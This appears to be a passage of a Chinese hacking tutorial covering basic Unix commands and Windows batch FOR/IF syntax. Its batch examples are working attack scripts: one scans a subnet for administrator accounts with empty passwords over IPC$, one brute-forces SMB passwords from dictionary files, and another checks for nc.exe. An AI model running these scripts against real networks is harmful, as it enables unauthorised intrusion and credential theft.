 `who` 查询目前和你使用同一台机器的人以及Login时间地点
`w` 查询目前上机者的详细资料
`whoami` 查看自己的帐号名称
`groups` 查看某人的Group
`passwd` 更改密码
`history` 查看自己下过的命令
`ps` 显示进程状态
`kill` 停止某进程
`gcc` 黑客通常用它来编译C语言写的文件
`su` 权限转换为指定使用者
`telnet IP telnet`连接对方主机（同win2K），当出现bash$时就说明连接成功。
`ftp ftp`连接上某服务器（同win2K）

### 批处理命令与变量
---
#### for命令及变量 基本格式
`FOR /`参数 `%variable IN (set) DO command [command_parameters] %variable:`指定一个单一字母可替换的参数，如：`%i` ，而指定一个变量则用：`%%i` ，而调用变量时用：`%i%` ，变量是区分大小写的（%i 不等于 %I）。
批处理每次能处理的变量从`%0—%9`共10个，其中`%0`默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：`net use ipipc$ pass /user:user `中`ip`为`%1`,pass为`%2` ,user为`%3`
　　`(set):`指定一个或一组文件，可使用通配符，如：`(D:user.txt)`和`(1 1 254)(1 -1 254),{“(1 1 254)”}`第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1;
　　`command: ` 指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
　　`command_parameters: `为特定命令指定参数或命令行开关
　　`IN (set)`:指在`(set)`中取值；`DO command` ：指执行command
　　参数：`/L`指用增量形式{ (set)为增量形式时 }；`/F`指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
　　用法举例：
```CMD
@echo off
echo 用法格式：test.bat *.*.* > test.txt
for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
```
 存为test.bat 说明：
 对指定的一个C类网段的254个IP依次试建立administrator密码为空的`IPC$`连接，如果成功就把该IP存在test.txt中。
　　`/L`指用增量形式（即从1-254或254-1）；输入的IP前面三位：`*.*.*`为批处理默认的 `%1`；`%%G`为变量(ip的最后一位）；& 用来隔开`echo`和`net use`这二个命令；`|` 指建立了`ipc$`后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
```cmd
　　@echo off
　　echo 用法格式：ok.bat ip
　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
```
　　存为：ok.exe 说明：输入一个IP后，用字典文件`d:pass.dic`来暴解`d:user.dic`中的用户密码，直到文件中值取完为止。`%%i`为用户名；`%1`为输入的IP地址（默认）。
　
### if命令及变量 基本格式
`IF [not] errorlevel 数字 命令语句` 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
例：`IF errorlevel 0 命令 `指程序执行后返回的值为0时，就值行后面的命令；`IF not errorlevel 1 命令`指程序执行最后返回的值不等于1，就执行后面的命令。
0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
`IF [not] 字符串1==字符串2 命令语句` 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
例：`if "%2%"=="4" goto start`指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就`%`变量名`%`并加`" "`）
`IF [not] exist 文件名 命令语句` 如果指定的文件名存在，就执行后面的命令。
例：`if not nc.exe goto end`指：如果没有发现nc.exe文件就跳到":end"标签处。
`IF [not] errorlevel 数字 命令语句 else 命令语句`或 `IF [not] 字符串1==字符串2 命令语句 else 命令语句`或` IF [not] exist 文件名 命令语句 else 命令语句 `加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有`del`命令时需把`del`命令全部内容用`< >`括起来，因为`del`命令要单独一行时才能执行，用上`< >`后就等于是单独一行了；例如：`if exist test.txt. <del test.txt.> else echo test.txt.missing `，注意命令中的`.`
### 系统外部命令
> 注：系统外部命令(均需下载相关工具)

